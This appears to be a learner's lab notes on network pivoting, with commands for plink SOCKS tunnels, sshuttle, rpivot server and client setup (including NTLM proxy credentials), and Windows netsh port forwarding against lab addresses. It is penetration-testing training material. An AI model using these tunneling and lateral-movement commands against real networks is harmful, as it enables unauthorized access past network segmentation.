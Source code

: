 ![[Pasted image 20250210143207.png]]

```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```

# SSH Pivoting with Sshuttle

```shell
sudo apt-get install sshuttle
```

```shell
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

# Web Server Pivoting with Rpivot

```shell
git clone https://github.com/klsecservices/rpivot.git
sudo apt-get install python2.7
```
#### Running server.py from the Attack Host
```shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

#### Transfering rpivot to the Target

```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### Running client.py from Pivot Target
```shell
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

# Port Forwarding with Windows Netsh

![[Pasted image 20250211144039.png]]
#### Using Netsh.exe to Port Forward

```cmd
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```
#### Verifying Port Forward
